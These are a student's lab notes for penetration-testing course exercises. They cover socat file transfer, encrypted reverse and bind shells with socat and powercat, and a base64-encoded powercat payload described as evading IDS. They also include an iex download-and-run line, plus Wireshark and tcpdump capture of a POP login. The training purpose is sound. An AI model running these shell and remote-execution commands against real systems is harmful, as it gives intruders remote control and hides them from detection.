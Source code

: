 # 4.2.5 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **socat ** to transfer **powercat.ps1 ** from your Kali machine to your Windows system. Keep the file on your system for use in the next section.
host
`sudo socat TCP4-LISTEN:443,fork file:powercat.ps1`
recipient
`socat TCP4:192.168.119.249:443 file:received_powercat.ps1,create`
![[Pasted image 20220218121253.png]]

2.  Use **socat ** to create an encrypted reverse shell from your Windows system to your Kali machine.
generate the key
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
combine .key and .crt into .pem
`cat bind_shell.key bind_shell.crt > bind_shell.pem`
create listener using .pem and execute shell
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
connect 
`socat - OPENSSL:192.168.119.249:443,verify=0`
![[Pasted image 20220218122213.png]]
# !!SKIPPED QUESTIONS RETURN HERE!!
3.  Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work?
use previously generated .pem
start socat listener
`socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0 STDOUT`
target windows machine do a callback using socat
`socat OPENSSL:192.168.119.218:443,verify=0 EXEC:/bin/bash`

4.  Make an unencrypted **socat ** bind shell on your Windows system. Connect to the shell using Netcat. Does it work?


# 4.3.9 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **PowerShell** and **powercat** to create a reverse shell from your Windows system to your Kali machine.
run dot-sourcing script
`. .\powercat.ps1`
or use iex cmdlet
`iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`
start listener on local machine
`nc -lnvp 9999`
use powershell on remote machine to connect to listener
`powercat -c <IP> -p <PORT> -e cmd.exe`
![[Pasted image 20220218171345.png]]
![[Pasted image 20220218171401.png]]
2.  Use **PowerShell** and **powercat** to create a bind shell on your Windows system and connect to it from your Kali machine. Can you also use **powercat** to connect to it locally?
create bind shell in powershell with powercat
`powercat -l -p 443 -e cmd.exe`
connect with nc on local machine
`nc -nv <IP> <PORT>`
to connect locally using powercat simply run powercat with -c flag in seperate terminal
`powercat -c 127.0.0.1 -p <PORT> `

3.  Use **powercat** to generate an encoded payload and then have it executed through **powershell**. Have a reverse shell sent to your Kali machine, also create an encoded bind shell on your Windows system and use your Kali machine to connect to it.
generate powercat payload
`powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1`
or encade in base64 to avoid IDS
`powercat -c <IP> -p <PORT> -e cmd.exe -ge > encoded_reverseshell.ps1`
start listener on local machine
`nc -lnvp <PORT>`
start reverse shell by running .ps1 file
`.\reversehell.ps1`
or if encoded, running posershell.exe with -E flag and encoded payload
`powershell.exe -E <ENCODED_PAYLOAD_HERE>`
###### easy copy/paste in powershell
`Get-Content C:\Users\user1\.ssh\id_ed25519.pub | Set-Clipboard`
![[Pasted image 20220218173555.png]]
![[Pasted image 20220218173813.png]]

# exercises 4.4.6
#### Exercises

_(To be performed on your own Kali machine - Reporting is required for these exercises)_

1.  Use Wireshark to capture network activity while attempting to connect to 10.11.1.217 on port 110 using Netcat, and then attempt to log into it.
setup filter to only capture traffic on port 110
connect to pop server via nc
`nc -nv <IP> 110`
attempt to log into pop server 
`USER student`
`PASS lab`
![[Pasted image 20220218183021.png]]
2.  Read and understand the output. Where is the three-way handshake happening? Where is the connection closed?
Frame 1, 2, and 3 contain the three-way handshake
![[Pasted image 20220218183223.png]]
frame 13 contains RST, ack which is used to reset/shutdown a connection
![[Pasted image 20220218183755.png]]

3.  Follow the TCP stream to read the login attempt.
![[Pasted image 20220218183815.png]]

4.  Use the display filter to only monitor traffic on port 110.
this can be done one the startup page via the capture filter
![[Pasted image 20220218183859.png]]
or with the display filter once the capture has begun
![[Pasted image 20220218184037.png]]

5.  Run a new session, this time using the capture filter to only collect traffic on port 110.
see above section for capture filtering

# exercises 4.5.3
_(To be performed on your own Kali machine - Reporting is required for these exercises)_

1.  Use tcpdump to recreate the Wireshark exercise of capturing traffic on port 110.
`sudo tcpdump -i tun0 port 110`
or save to pcap file
`sudo tcpdump -i tun0 port 110 -w sample.pcap`

2.  Use the -X flag to view the content of the packet. If data is truncated, investigate how the -s flag might help.
view contents of .pcap
`sudo tcpdump -nX -r sample.pcap `

truncated packets - from the tcpdump manpage, usage of -s flag:
"Packets truncated because of a limited snapshot are indicated in the output with '''{proto}'', where proto is the name of the protocol level at which the truncation has occurred"
`sudo tcpdump -nX -s 0 -r sample.pcap`

3.  Find all 'SYN', 'ACK', and 'RST' packets in the password_cracking_filtered.pcap file.
`tcpdump -A -n 'tcp[13] &4!=0 or tcp[13] & 2!=0 or tcp[13] & 16!=0' -r password_cracking_ptap.pcap`

4.  An alternative syntax is available in tcpdump where you can use a more user-friendly filter to display only ACK and PSH packets. Explore this syntax in the tcpdump manual by searching for "tcpflags". Come up with an equivalent display filter using this syntax to filter ACK and PSH packets.
`tcpdump -A -n 'tcp[tcpflags] == tcp-push or tcp[tcpflags] == tcp-ack' -r password_cracking_ptap.pcap`